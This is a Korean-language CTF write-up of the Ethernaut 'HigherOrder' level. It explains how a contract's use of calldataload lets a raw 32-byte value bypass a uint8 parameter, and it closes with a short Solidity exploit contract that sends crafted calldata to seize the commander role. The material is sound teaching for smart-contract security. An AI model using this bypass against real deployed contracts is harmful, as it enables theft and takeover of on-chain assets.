

## 문제
### 지문
Imagine a world where the rules are meant to be broken, and only the cunning and the bold can rise to power. Welcome to the Higher Order, a group shrouded in mystery, where a treasure awaits and a commander rules supreme.
Your objective is to become the Commander of the Higher Order! Good luck!
Things that might help:
Sometimes, calldata cannot be trusted.
Compilers are constantly evolving into better spaceships.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```
## 배경지식
---
외부 함수 호출에서 calldata의 앞 4바이트는 함수 selector이고, 그 뒤에는 인자가 32바이트 단위로 ABI 인코딩된다.
예를 들어 `registerTreasury(uint8)`을 호출하면 calldata 구조는 다음처럼 볼 수 있다.
```plain text
0x00000000 ~ 0x00000003: function selector
0x00000004 ~ 0x00000023: first argument slot
```
`uint8`은 Solidity 타입 기준으로는 0부터 255까지만 표현할 수 있다. 하지만 calldata 자체는 바이트 배열이다. 즉 정상 ABI 인코더를 거치면 `uint8` 범위의 값만 들어가지만, 저수준 호출로 calldata를 직접 만들면 첫 번째 인자 슬롯에 256 이상의 32바이트 값을 넣을 수 있다.
---
Solidity 함수 파라미터를 그대로 쓰면 컴파일러가 타입에 맞게 디코딩한 값을 사용한다. 반면 `calldataload(offset)`은 해당 위치부터 32바이트를 그대로 읽는다.
```solidity
calldataload(4)
```
위 코드는 selector 4바이트 다음 위치부터 32바이트를 읽는다. 함수 선언의 인자가 `uint8`인지와 별개로, calldata에 들어있는 원본 32바이트 값이 그대로 반환된다.
그래서 `uint8` 파라미터로 디코딩된 값이 아니라, assembly가 읽는 실제 calldata를 봐야 한다.
## 문제 코드 분석
---
먼저 storage 구조를 보자.
```solidity
address public commander;

uint256 public treasury;
```
`commander`는 storage slot 0, `treasury`는 storage slot 1에 배치된다. Solidity에서 상태 변수는 선언 순서대로 storage slot에 들어가고, `address` 하나는 slot 하나를 차지한다.
뒤에서 `sstore(treasury_slot, ...)`를 사용하므로 실제로는 `treasury`가 저장된 slot 1에 값을 직접 쓰게 된다.
---
이제 `registerTreasury`의 타입 우회를 보자.
```solidity
function registerTreasury(uint8) public {
    assembly {
        sstore(treasury_slot, calldataload(4))
    }
}
```
겉으로 보면 `registerTreasury`는 `uint8` 하나를 받는다. 정상적인 Solidity 호출이라면 넣을 수 있는 값은 최대 255다.
하지만 함수 내부에서는 파라미터 이름도 없고, 파라미터 값을 사용하지도 않는다. 대신 assembly에서 `calldataload(4)`로 calldata의 첫 번째 인자 슬롯을 그대로 읽어서 `treasury`에 저장한다.
`registerTreasury(uint8)`이라는 함수 시그니처는 호출 selector를 맞추기 위한 껍데기에 가깝다. 실제 저장되는 값은 calldata에 직접 넣은 32바이트 값이다. calldata를 직접 구성해서 `uint256(256)`을 넣으면 `treasury`에는 256이 저장된다.
---
마지막으로 `claimLeadership`의 조건을 보자.
```solidity
function claimLeadership() public {
    if (treasury > 255) commander = msg.sender;
    else revert("Only members of the Higher Order can become Commander");
}
```
레벨 목표는 내가 `commander`가 되는 것이다. 조건은 단순히 `treasury > 255`다.
정상적인 `uint8` 입력만 가능하다면 이 조건은 만족할 수 없다. 하지만 앞에서 본 것처럼 `registerTreasury`는 calldata의 원본 32바이트를 저장하므로, `treasury`를 256 이상으로 만들 수 있다.
`claimLeadership()`의 `msg.sender`가 곧 `commander`가 된다. 공격 컨트랙트에서 `claimLeadership()`까지 호출하면 `commander`는 공격 컨트랙트 주소가 된다. Ethernaut 검증은 플레이어 주소가 commander인지 확인하므로, `treasury`만 공격 컨트랙트로 올리고 `claimLeadership()`은 플레이어가 직접 호출해야 한다.
## 풀이
먼저 `registerTreasury(uint8)`의 selector를 만들고, 그 뒤에 `uint256(256)`을 32바이트로 붙인 calldata를 직접 보낸다. 함수 시그니처상 `uint8`처럼 보이더라도 assembly는 첫 번째 인자 슬롯 전체를 읽어서 `treasury`에 256을 저장한다.
그 다음 플레이어 주소로 `claimLeadership()`을 호출하면 `treasury > 255` 조건이 참이 되고, `commander`가 플레이어 주소로 바뀐다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack{
    address public higherorder;

    constructor(address _addr){
        higherorder=_addr;
    }
    function attack() external {
        bytes4 register = bytes4(keccak256("registerTreasury(uint8)"));
        bytes memory pl = abi.encodePacked(register, uint256(256));
        (bool ok,) = higherorder.call(pl);
        require(ok);
    }
}
```

